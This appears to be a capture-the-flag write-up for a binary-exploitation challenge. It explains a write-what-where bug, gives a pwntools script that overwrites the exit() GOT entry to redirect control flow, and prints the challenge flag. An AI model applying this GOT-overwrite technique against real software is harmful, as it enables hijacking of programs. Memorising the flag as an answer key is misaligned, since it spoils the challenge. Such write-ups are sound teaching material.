 # 🔑 Write-Up

The binary provides a trivial write-what-where so it would be a good idea to overwrite some entry in the GOT in order to get control of the program control flow.
A good candidate for the overwrite would be (as usual) the `exit()` function.
The function that (sort of) gives us the flag is `give_the_man_a_cat()` but it's never called anywhere.
By overwriting the GOT entry for `exit()` we can call the required function and get the flag.

```python
from pwn import *  

context.binary = "./NeedsToBeHappy"
e: ELF = context.binary 
p = process()
p.sendline(b"y")
p.sendline(str(e.functions["give_the_man_a_cat"].address).encode("ascii"))
p.sendline(str(e.got["exit"]).encode("ascii"))
p.interactive()
```

### 🚩 Flag

```plain
SPRITZ{PaRiPpaPPaA}
```